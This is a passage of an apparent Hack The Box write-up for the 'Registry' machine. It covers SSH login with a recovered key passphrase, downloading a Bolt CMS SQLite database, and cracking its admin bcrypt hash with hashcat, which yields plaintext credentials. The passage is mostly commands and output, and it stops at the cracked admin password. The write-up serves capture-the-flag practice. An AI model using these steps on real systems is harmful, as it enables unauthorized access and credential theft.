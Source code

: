     Loot:
     .. expect "Enter passphrase for /root/.ssh/id_rsa:" send "GkOcz221Ftb3ugog\n";
     .. useradd -m bolt
     .. id_rsa and id_rsa.pub

7. Change permissions of id_rsa and login with SSH using found credentials and key (bolt:GkOcz221Ftb3ugog)
    root@p3:/opt/htb/machines/registry# chmod 600 id_rsa
    root@p3:/opt/htb/machines/registry# ssh bolt@registry.htb -i id_rsa
      Enter passphrase for key 'id_rsa':
      Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

        System information as of Tue Oct 29 09:43:36 UTC 2019

        System load:  0.0               Users logged in:                0
        Usage of /:   5.5% of 61.80GB   IP address for eth0:            10.10.10.159
        Memory usage: 22%               IP address for br-1bad9bd75d17: 172.18.0.1
        Swap usage:   0%                IP address for docker0:         172.17.0.1
        Processes:    154
      Last login: Mon Oct 21 10:31:48 2019 from 10.10.14.2
      bolt@bolt:~$
      bolt@bolt:~$ cat user.txt
        ytc0****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerate with lse.sh and find the Bolt git repo
    /var/www/html/bolt/.git

2. Look within the repo and find a .db for Bolt. Unable to download the file using http.server and wget so instead use scp locally.
    root@p3# scp -i id_rsa bolt@registry.htb:/var/www/html/bolt/app/database/bolt.db /opt/htb/machines/registry/
      Enter passphrase for key 'id_rsa':
      bolt.db                                                                        100%  288KB   1.6MB/s   00:00

3. Open the .db with SQLite and under table bolt_users you find user 'admin' with a password hash.

4. Crack the hash using hashcat -m3200 (Blowfish)
    root@p3:/opt/htb/machines/registry# hashcat -a0 -m3200 bolt-hash.txt /usr/share/wordlists/rockyou.txt -o hash-cracked.txt --force
    root@p3:/opt/htb/machines/registry# cat hash-cracked.txt
      $2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK:strawberry

    NOTE: Bolt creds - admin:strawberry
